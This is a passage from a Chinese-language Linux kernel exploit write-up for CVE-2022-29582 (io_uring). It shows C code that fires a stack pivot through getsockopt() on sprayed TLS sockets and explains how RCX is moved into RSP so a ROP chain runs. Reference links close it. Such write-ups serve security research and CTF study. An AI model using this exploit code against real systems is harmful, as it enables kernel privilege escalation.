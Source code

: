 谜题的最后一部分是触发栈迁移，我们知道在一个幸运的套接字上调用具有幸运的`tls_context`的`getsockopt()`将运行栈迁移代码，

```bash
err_t run_machine(struct manager *mgr)
{
    char *spray = mgr->spray;
    uint64_t tls_context = *(uint64_t*)&spray[SK_PROTO_OFF];
    uint64_t pivot_stack = tls_context + 0x20;

    /* Transfer control inside child task */
    if (!fork()) {
        /* Hopefully run along the ROP chain */
        puts("[+] Calling getsockopt() to trigger execution.");
        getsockopt_all_tls(0x41414141, 0x42424242,
                           pivot_stack, 0x8181818181818181);
    }
    /* Busyloop to prevent exit. */
    for (;;);
    __builtin_unreachable();
}

err_t getsockopt_all_tls(int level, int name, void *value, void* len)
{
    for (int i = 0; i < N_TLS_FDS; ++i) {
        IF_ERR(tls_fds[i]) {
            perror("getsockopt_all_tls:fd=-1");
            return ERR;
        }
        getsockopt(tls_fds[i], level, name, value, len);
    }
    return SUCC;
}
```

根据目标机器上的调用约定，我们可以通过`getsockopt()`函数的**value**参数来控制**RCX**寄存器的所有字节，我们的堆栈转移工具（即取代目标函数`getsockopt()`的代码），会将 RCX 中的值（即`tls_context + 0x20`）移动到**RSP**中（以此使用假的堆栈），然后返回地址，ROP 链位于**tls\_context + 0x20**处，开始执行，

# 参考链接

[CVE-2022-29582](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/)  
[【Exploit trick】利用 poll\_list 对象构造 kmalloc-32 任意释放 (corCTF 2022-CoRJail)](https://blog.csdn.net/panhewu9919/article/details/127804902?spm=1001.2014.3001.5501)(我 rop 链参考的这个，应该可以更简单些，懒得搞了)  
[\[linux kernel\]slub 内存管理分析 (7) MEMCG 的影响与绕过](https://blog.csdn.net/Breeze_CAT/article/details/130015930?spm=1001.2014.3001.5501)
